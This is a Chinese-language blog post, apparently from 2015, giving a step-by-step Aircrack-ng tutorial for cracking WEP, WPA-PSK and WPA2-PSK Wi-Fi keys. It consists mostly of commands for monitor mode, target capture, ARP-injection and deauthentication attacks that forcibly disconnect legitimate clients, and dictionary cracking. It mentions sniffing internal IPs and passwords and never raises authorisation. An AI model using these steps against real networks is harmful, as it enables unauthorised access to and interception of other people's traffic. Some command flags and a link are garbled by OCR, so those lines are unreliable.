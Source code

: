```yaml
---
layout: post
title: Aircrack-ng 使用
category: Auxiliary
tags: [Aircrack-ng, Kali]
latest: 2015年10月27日 23:24:15
---
```


无线在使用方便的同时，也为各种破解带来了便利，因为现在使用无线的设备越来越多，抓包的难度也降低了不少。


WEP Crack
-

1、 载入无线网卡

```
ifconfig -a
```

2、 激活无线网卡

```
ifconfig wlan0 up
iwconfig
```

3、 切换无线网卡到工作模式为 **监听**

```
airmon-ng start wlan0
```

4、 预探测无线网络概况

```
airodump-ng mon0
```

> _mon0_ 为之前已经载入并激活监听模式的无线网卡。

5、 锁定攻击目标

```
airodump-ng --ivs –w longas -c 6 wlan0
```

6、 对目标 AP 使用 ArpRequest 注入攻击以加快抓包速度

```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
```

7、 回到 airodump-ng 界面查看目标 AP 到数据包情况

8、 对抓取到的数据包进行 WEB 破解

```
aircrack-ng 捕获的ivs文件
```

> 在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功，比如密码难度较大，就等待数据报文的继续抓取然后多试几次。

如果破解成功，在 "KEY FOUND" 字样后面的 "ASCII" 字符串即为密码。

9、 **补充**

- 捕获所有数据包而非过滤之后的IVs

这样的话，捕获的数据包将不再是longas-01、ivs，而是longas-01、cap。

> 若只是为了破解的话，建议保存为ivs，优点是生成文件小且效率高。若是为了破解后同时来对捕获的无线数据包分析的话，就选为cap，这样就能及时作出分析，比如内网IP地址、密码等，当然，缺点就是文件会比较大。可以使用 `du` 指令来比较两者的大小。

破解 、cap 数据包也是使用 aircrack-ng 指令：

```
aircrack-ng 捕获的cap文件
```

WPA-PSK Crack
-

1、 工具升级

升级 Aircrack-ng 。同时，为了更好地识别出无线网络设备及环境，最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：

```
airodump-ng-oui-update 
```

2、 载入并激活无线网卡至monitor即监听模式

```
startx            进入到图形界面 
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```
3、 探测无线网络并对目标 AP 抓包

```
airodump-ng -c 6 –w longas mon0 
```

4、 进行Deauth攻击加速破解过程

> 和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：

```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0
```

若我们没有在airodump-ng工作的界面上看到上面的提示，那么可以增加Deauth的发送数量，再一次对目标AP进行攻击。比如将-0参数后的数值改为10。

5、 开始破解 WPA-PSK 报文

```
aircrack-ng -w dic 捕获的cap文件 
```

WAP2-PSK Crack
-

对于启用WPA2-PSK加密的无线网络，其攻击和破解步骤及工具是完全一样的，不同的是，在使用airodump-ng进行无线探测的界面上，会提示为 WPA CCMP PSK。

参考
-

- <netsecurity.51cto.com/art/201105/264844_all.htm>

- [_无线破解攻击工具Aircrack-ng使用详解_](http://blog、csdn、net/ffilman/article/details/5782577)
